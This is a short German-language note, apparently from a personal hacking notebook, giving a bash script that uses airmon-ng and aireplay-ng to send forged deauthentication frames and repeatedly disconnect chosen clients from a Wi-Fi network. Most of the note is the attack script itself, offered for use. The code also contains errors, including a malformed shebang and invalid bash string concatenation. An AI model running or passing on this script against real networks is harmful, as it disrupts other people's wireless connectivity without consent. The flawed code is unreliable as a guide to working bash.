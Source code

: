 ```yaml
---
tags:
  - linux
  - bash
  - script
  - code
  - kali
  - hacking
---
```

Aircrack-Tools müssen installiert sein um airmon-ng und aireplay-ng nutzen zu können. Im Bash Script definierte Wireless LAN-Clients werden durch gefälschte Mitteilung an Router deauthorisiert und vom WLAN (IEEE 802.11) getrennt.
```bash
#!bin/bash
wifiKanal=1
zielMAC1='99:99:99:99:99:99'
zielMAC2='FF:FF:FF:FF:FF:FF'
attempts=66
timerInSeconds=666
pauseInSeconds=6
signalCuts=66
useDevice='wlo1'
airmon-ng start $useDevice $wifiKanal
accessMAC='00:00:00:00:00:00'
useDevice='$useDevice' + 'mon'
## ACHTUNG: Skript vorher testen!!!
while [ $attempts -gt 0 ]
do
  echo "Wifi-Geraet: $useDevice"
  echo "Wifi-Kanal: $wifiKanal"
  echo "Router-MAC: $accessMAC"
  echo "Angriffsziele: $zielMAC1 und $zielMAC2"
  echo "Angriffszahl: $attempts Anlaeufe"
  echo "Angriffslaenge: $signalCuts Frames"
  echo "Zwischenpausen: $pauseInSeconds Sekunden"
  echo "Startverzögerug: $timerInSeconds Sekunden"
  sleep $timerInSeconds
  attempts=$((attempts-1))
  aireplay-ng -0 $signalCuts -a $accessMAC -c $zielMAC1 $useDevice
  aireplay-ng -0 $signalCuts -a $accessMAC -c $zielMAC2 $useDevice
  sleep $pauseInSeconds;
done
```

Executable File: 
![[wifi-deauthentication-attack.BASH.sh]]
